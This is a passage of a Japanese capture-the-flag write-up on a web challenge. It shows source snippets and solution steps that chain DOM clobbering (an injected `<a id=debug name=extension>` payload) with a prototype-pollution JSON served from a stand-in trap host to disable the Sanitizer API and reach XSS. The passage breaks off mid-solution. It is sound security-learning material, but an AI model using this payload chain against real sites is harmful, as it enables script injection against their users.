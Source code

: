 2箇所`<%- title %>`と`<%- body %>`があるため、XSSが可能そうですが、encodeURIComponentされた状態となるため、そのままでは無理そう。  
Sanitizer APIによって無効化されたHTML要素は生成できる。  
Sanitizer APIが回避できれば良かったですが、どうにかして`debug.sanitize`をfalseにする必要がありそうです。

```js
res.render("sanes", {
  id: req.params.sane,
  title: encodeURIComponent(sane.title),
  body: encodeURIComponent(sane.body),
});
```

よく見ると、以下の怪しい処理があります。  
`window.debug?.extension`がある場合は、そこに対してfetchを行い、その結果を`extention`に設定しています。

```js
let extension = null;
if (window.debug?.extension) {
    let res = await fetch(window.debug?.extension.toString());
    extension = await res.json();
}
```

また、設定された`extenstion`はその後の処理で使われており、ここにはPrototype Pollutionの脆弱性があります。

```js
const debug = Object.assign(new Debug(true), extension ?? { report: true });
```

整理すると、`window.debug?.extension`の値としてPrototype Pollutionの罠を置いたサイトのURLを設定できれば、`debug.sanitize`をfalseにできるようになります。

[Shisui - Fword CTF 2021 Writeup](https://blog.bi0s.in/2021/08/30/Web/Fword-CTF-2021-Shisui-Write-up/)を確認すると、どうやら同名のidで異なるname属性を持つ要素を生成することで、`window.<id>.<name>`としてアクセスできるようです。

つまり、`<a id=debug name=extension href="https://xxxx/" ><a id=debug name=x>`を生成することで、`window.debug?.extension.toString()`の結果を`https://xxxx/`にすることができます。

### 解法

1. Prototype Pollition用の罠サイトを立てる。

    - <https://trap.xxxx/>

    ```json
    {"__proto__":{"sanitize":false} }
    ```

    この時、CORSを許可する必要があります。

    - Access-Control-Allow-Origin: *
    - Access-Control-Allow-Methods: GET, POST
    - Access-Control-Allow-Headers: X-Requested-With

2. `title`及び`body`パラメータに以下を指定してページを生成する。

    - title

    ```text
    <a id="debug" name=extension href="https://trap.xxxx/" ><a id="debug" name=x>
    ```
